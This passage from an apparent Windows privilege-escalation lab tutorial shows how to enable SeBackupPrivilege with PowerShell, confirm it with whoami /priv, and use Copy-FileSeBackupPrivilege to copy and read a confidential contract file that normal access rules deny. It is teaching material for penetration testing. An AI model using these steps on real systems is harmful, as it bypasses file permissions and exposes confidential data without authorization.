 ```
Set-SeBackupPrivilege
Get-SeBackupPrivilege

SeBackupPrivilege is enabled
```

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

4) Copying a Protected File

```
dir C:\Confidential\

    Directory: C:\Confidential

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/6/2021   1:01 PM             88 2021 Contract.txt
```

```
cat 'C:\Confidential\2021 Contract.txt'

cat : Access to the path 'C:\Confidential\2021 Contract.txt' is denied.
At line:1 char:1
+ cat 'C:\Confidential\2021 Contract.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Confidential\2021 Contract.txt:String) [Get-Content], Unauthor
   izedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

```
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

Copied 88 bytes
```

```
cat .\Contract.txt

Inlanefreight 2021 Contract

==============================

Board of Directors:

<...SNIP...>
```
